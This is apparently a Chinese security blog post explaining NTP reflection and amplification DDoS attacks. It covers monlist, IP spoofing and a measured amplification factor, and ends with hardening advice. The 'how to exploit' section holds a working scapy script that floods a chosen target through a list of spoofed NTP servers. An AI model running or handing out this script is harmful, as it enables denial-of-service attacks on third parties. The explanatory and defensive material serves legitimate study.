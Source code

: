 ## 0x01 一些案例

------

最近一段时间 DDoS 攻击事件让基于 NTP 的 DDoS 攻击变得很火热，先看看下面的信息感受下：

> “It was a very large DDoS targeting a CloudFlare customer,” Matthew Prince, CEO of Cloudflare told SecurityWeek. “We're still gathering the log data to get exact numbers but know it was well over 300Gbps and  likely over 400Gbps,” Prince said.
>
> “The method was NTP reflection, which is quickly replacing DNS reflection as the source of the largest attacks,” Prince said.

消息中称 CloudFlare 遭受了高达 400G 流量的 NTP 反射攻击，目前从网上各处的消息来看，众说纷纭，我们先不去考证消息的真伪，仅仅从攻击方法和流量方面来看着实体现出 NTP 反射攻击的威力。

## 0x02 什么是 NTP

------

NTP 是网络时间协议（Network Time Protocol）的简称，干嘛用的呢？就是通过网络协议使计算机之前的时间同步化。

## 0x03 NTP 反射和放大攻击

------

那什么是 NTP 反射和放大攻击呢？如果听过 DNS 反射和放大攻击的话应该就会对这个比较容易理解了，协议不同，效果一样。

我们先来说说放射和放大攻击：

无论是基于 DNS 还是基于 NTP，其最终都是基于 UDP 协议的。在 UDP  协议中正常情况下客户端发送请求包到服务端，服务端返回响应包到客户端，但是 UDP 协议是面向无连接的，所以客户端发送请求包的源 IP  很容易进行伪造，当把源 IP 修改为受害者的 IP，最终服务端返回的响应包就会返回到受害者的 IP。这就形成了一次反射攻击。

放大攻击呢就是一次小的请求包最终会收到一个或者多个多于请求包许多倍的响应包，这样就达到了四两拨千斤的效果。

那我们接着来看什么是 NTP 的反射和放大攻击，NTP 包含一个 monlist 功能，也被成为 MON_GETLIST，主要用于监控  NTP 服务器，NTP 服务器响应 monlist 后就会返回与 NTP 服务器进行过时间同步的最后 600 个客户端的 IP，响应包按照每 6 个 IP 进行分割，最多有 100 个响应包。

我们可以通过 ntpdc 命令向一个 NTP 服务器发送 monlist 以及结合抓包来看下实际的效果。

> pangzi@pangzi-mac ~$ ntpdc -n -c monlist x.x.x.x | wc -l
>
> 602

![NTP wireshark](https://drop.zone.ci/images_result/images/2014091812105020054.jpeg)

在上面的命令行中我们可以看到一次含有 monlist 的请求收到 602 行数据，除去头两行是无效数据外，正好是 600 个客户端 IP  列表，并且从上面图中的 wireshark 中我们也看到显示有 101 个 NTP 协议的包，除去一个请求包，正好是 100 个响应包。

从上图中我们可以看到请求包的大小为 234 字节，每个响应包为 482 字节，如果单纯按照这个数据我们可以计算出放大的倍数是：482*100/234 = 206 倍。其实如果通过编写攻击脚本，请求包会更小，这个倍数值会更大，这样算起来是不是蛮屌的。

## 0x04 如何利用

------

我们通过 scapy 实现一个简单的攻击脚本，代码如下：

```
#!python
#!/usr/bin/env python
# author: pangzi.me@gmail.com

import sys
from scapy.all import *

def attack(target, ntp_server):
    send(IP(dst=ntp_server, src=target)/(UDP(sport=52816)/NTP(version=2, mode=7, stratum=0, poll=3, precision=42)))

if __name__ == "__main__":
    if len(sys.argv) != 3:
        sys.exit(1)

    target = sys.argv[1]
    ntp_server_file = sys.argv[2]
    for ntp_server in open(ntp_server_file, "r"):
        ntp_server = ntp_server.strip()
        if ntp_server != "":
            attack(target, ntp_server)
```

## 0x05 如何防御

------

我们可以分为两种情况进行防御

#### 加固 NTP 服务

```
1. 把 NTP 服务器升级到 4.2.7p26
2. 关闭现在 NTP 服务的 monlist 功能，在ntp.conf配置文件中增加`disable monitor`选项
3. 在网络出口封禁 UDP 123 端口
```

#### 防御 NTP 反射和放大攻击

```
1. 由于这种攻击的特征比较明显，所以可以通过网络层或者借助运营商实施 ACL 来防御
2. 使用防 DDoS 设备进行清洗
```

不过我觉得如果流量真的够大，400G？800G？或者更大，又有谁能够防得住呢？